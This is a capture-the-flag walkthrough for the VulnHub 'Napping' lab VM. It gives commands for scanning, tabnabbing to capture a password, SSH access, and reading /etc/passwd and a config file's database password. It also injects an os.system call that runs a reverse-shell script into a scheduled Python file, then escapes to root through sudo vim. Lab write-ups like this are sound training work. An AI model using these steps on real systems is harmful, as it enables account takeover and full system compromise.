# NAPPING: 1.0.1 Walkthrough

## Preparation
1. Download Napping-1.0.1.ova file ([Napping-1.0.1.ova](https://download.vulnhub.com/napping/napping-1.0.1.ova))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
    

1. Start the Napping-1.0.1 virtual machine
    * Turn on the Napping-1.0.1 virtual machine from the VirtualBox  
      

1. Confirm the IP address of the Napping-1.0.1 virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`  
      
      
        * 192.168.56.100: DHCP Server
        * **192.168.56.106**: Napping-1.0.1 Server

1. Set the Napping-1.0.1 IP address to the environment variance  
    * `export IP=192.168.56.106`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
    
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the Napping-1.0.1 IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file

1. As we see the nmap result, we can attempt to access of 22 (SSH Service) and 80 (Http Service) ports.  

## Initial Access
1. Access to the 80 port
    * Open web browser from the ParrotOS and access to the `http://192.168.56.106`  
      

1. Make a new account
    * Click "Sing up now" link  
    * Make a new account as following infomation  
      
        - Username: `evil`  
        - Password: `password`  
    

1. Confirm behavior of the web page with development tool
    * Login with `evil` and `passowrd`  
    * Input `192.168.56.200` at the Blog Link and click the Submit button  
    * Turn on the Inspect (right click and select Inspect)  
    * Confirm there is a possibility of tabnabbing attack  
      

1. Prepare for tabnabbing attack  
    * Access the login page with Web browser  
    * Right click, select "Save Page As", and save the login page  
    * Copy the "Login.html" page and save as "get_info.html"  
    * Make "evil.html" file
      

1. Prepare for HTTP service for tabnabbing attack  
    * Open a new terminal  
    * Start a simple HTTP server with Python  
      
        - `sudu python 3 -m http.server 80`  
    * Open a new terminal  
    * Receive the HTTP requests with Netcat  
      
        - Input the command `nc -lvnp 31337`  
        - -l: Enable standby mode  
        - -v: Enable redundancy mode  
        - -n: Bypass DNS lookup  
        - -p: Designate the port number  

## Execution  
1. Execute tabnabbing attack  
    * Login with the "evil" user from the login page  
    * Input `http://192.168.56.101/evil.html` at the Blog Link box and click the Submit button  
    * Click the "Here" link and wait for about 2 minutes  
    * Confirm the netcat  
      
    * URL decode for the password with the following command  
        - `echo "C%40ughtm3napping123" | php -r "echo urldecode(file_get_contents('php://stdin'));"`  
    * We can get the daniel's password `C@ughtm3napping123`  

1. Attempt to login for SSH  
    * From the Nmap result, we try to login the SSH service  
      
        - `ssh daniel@$IP`  
        - Password: `C@ughtm3napping123`  

1. Confirm the daniel account  
    * Use the "id" and "groups" commands  
    * The daniel account is belonged to the administrator's group  
      
    * Confirm the daniel's shell and the shell users  
    * /bin/bash users are "root", "daniel", and "adrian"  
        
        - `cat /etc/passwd | grep daniel`  
        - `cat /etc/passwd | grep /bin/bash`  
    * Confirm config.php file  
      
        - The password(`P@sswr0d456`) might be MySQL password  

1. Access the MySQL Database  
    * Input the following command  
      
        - `mysql -u adrian -p`  
        - Password: `P@sswr0d456`  
    * Search tables and users  
      
        - The "evil" user is created by myself  
        - Unfortunately, there is no useful information  

1. Find executable files  
    * `find / -group administrators 2> /dev/null`  
    * The executable file is a only "query.py"  
      
    * The file writes responses from localhost to the site_status.txt file  

1. Prepare reverse shell  
    * Go to /dev/shm directory  
    * Make reverse shell file  
      
    * Add execution right to the shell file  
        - `chmod +x revshell.sh`  
    * Modify the query.py file  
      
        - Add `os.system('/usr/bin/bash /dev/shm/revshell.sh')`  
    * Establish reserse shell session with a new terminal  
        
        - `nc -lvnp 4242`  
        - Seize adrian user's shell  

## Credential Access for general user  
1. Open user's flag file  
    * Open the "user.txt" file in the adrian's home directory  
      

## Privilege Escalation  
1. Check to have root right for the adrian user  
    * `sudo -l`  
        
        - The adrian user can execute "/usr/bin/vim"  

1. Execute privilege escalation using vim
    * `sudo /usr/bin/vim -c ':!/bin/sh'`    

## Credential Access for root user    
1. Open the root flag file  
    * Input the following commands  
        